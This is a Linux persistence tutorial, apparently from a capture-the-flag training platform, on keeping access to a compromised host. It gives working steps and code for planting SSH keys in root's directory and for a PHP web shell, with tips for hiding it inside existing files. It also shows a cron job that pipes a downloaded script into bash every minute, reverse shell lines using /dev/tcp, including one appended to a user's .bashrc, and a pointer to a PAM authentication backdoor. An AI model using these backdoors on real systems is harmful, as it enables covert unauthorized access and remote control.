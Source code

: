```yaml
---
icon: linux
---
```


# Linux

## SSH keys

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

The first backdoor we are going to look at is : The SSH Backdoor

The ssh backdoor essentially consists of leaving our ssh keys in some user’s home directory. Usually the user would be root as it’s the user with the highest privileges.&#x20;

So Let’s generate a set of ssh keys with ssh-keygen!

<figure><img src="../../../../.gitbook/assets/JmRkLjw.png" alt=""><figcaption></figcaption></figure>

Now that we have 2 keys. 1 private key and 1 public key, we can now go to /root/.ssh and leave our public key there. Don't forget to rename the public key to : authorized\_keys

If the directory .ssh is not present, you can always create it using this command : "mkdir .ssh"

Now that we have left our backdoor, we can simply login as root!

Before doing so, give the private key the right permissions using : chmod 600 id\_rsa.

This is necessary because if we don't do it, ssh will complain about permissions not being secure enough on the key and will most likely , not let us use it.

After giving the key the right permissions, we can do : "ssh -i id\_rsa root@ip" to login into our desired machine!

One thing to note about this backdoor is:

1. &#x20;This backdoor isn't hidden at all. Anybody with the right permissions would be able to remove our ssh public key or the file authorized\_keys entirely.

## PHP Backdoors

If you get root access on a Linux host, you will most likely search for creds and or any useful information in the web root.

The web root is usually located in : /var/www/html

What you have to know is that, whatever you leave in /var/www/html, will be available for everybody to use in their browser.

Now that you know that, you can try creating a php file with any name and putting inside this piece of code:

```
<?php
    if (isset($_REQUEST['cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    }
?>

This code simply takes the parameter "cmd" and will execute anything that is being given to that parameter.

Notice that we are using : "$_REQUEST['cmd'])", which means that you can pass that parameter either in GET or in POST data.

Now that file is saved and ready , we can try to query it.

If you left the file in /var/www/html/shell.php | You should be able to access it directly using : http://ip/shell.php

If you left the shell somewhere else, look in what directory it is and then try accessing it by doing something like that : http://ip/
```

1\. Try to add this piece of code in already existing php files in /var/www/html. Adding it more towards the middle of files will definitely make our malicious actions a little more secret.

2\. Change the "cmd" parameter to something else... anything actually... just change it to something that isn't that common. "Cmd" is really common and is already really well known in the hacking community.

## CronJob Backdoors

is backdoor consists of creating a cronjob!

If you take a look at your cronjobs file, which is /etc/cronjob, you would see something like this:

![](https://assets.tryhackme.com/additional/imgur/ywQIFmb.png)

his represents all the tasks that are scheduled to run at some time on your machine.

Once you got root access on any host, you can add any scheduled task. You could even just configure a task where every minute a reverse shell is sent to you. Which is exactly what we're going to do.

Notice the 2 letters on top of the tasks : "m and h"\


Those are the letters that indicate if the task should run every hour or every minute.

In the example above, you can see that there is a "\*" symbol under the "h". This means that the following task would run every hour.

Now let's get to our backdoor!

Add this line into our cronjob file :

`* *     * * *   root    curl http://<yourip>:8080/shell | bash`

Notice that we put a "\*" star symbol to everything. This means that our task will run every minute, every hour, every day , etc .

We first use "curl" to download a file , and then we pipe it to "bash"

The contents of the "shell" file that we are using are simply :

```bash
#!/bin/bash
bash -i >& /dev/tcp/ip/port 0>&1
```

***

We would have to run an HTTP server serving our shell.

You can achieve this by running : "python3 -m http.server 8080"\


Once our shell gets downloaded, it will be executed by "bash" and we would get a shell!

\*Don't forget to listen on your specified port with "nc -nvlp \<port>"\*\\

Please note that this backdoor isn't really hidden because everyone can see it just by looking inside /etc/crontab.

## .bashrc Backdoors

If a user has bash as their login shell, the ".bashrc" file in their home directory is executed when an interactive session is launched.

So If you know any users that log on to their system quite often, you could simply run this command to include your reverse shell into their ".bashrc".

```
echo 'bash -i >& /dev/tcp/ip/port 0>&1' >> ~/.bashrc
```

{% hint style="warning" %}
One important thing is to always have your nc listener ready as you don't know when your user will log on. This attack is very sneaky as nobody really thinks about ever checking their ".bashrc" file. On the other hand, you can't exactly know if any of the user's will actually login to their system, so you might really wait a long period of time.
{% endhint %}

## pam\_unix.so Backdoors

The backdoor that we are going to look at is: The pam\_unix.so backdoor!

If you don't know what the file "pam\_unix.so" is , well , it simply is one of many files in Linux that is responsible for authentication.

Adding our own password. FOr unix like systems which have it

{% embed url="https://0x90909090.blogspot.com/2016/06/creating-backdoor-in-pam-in-5-line-of.html" %}

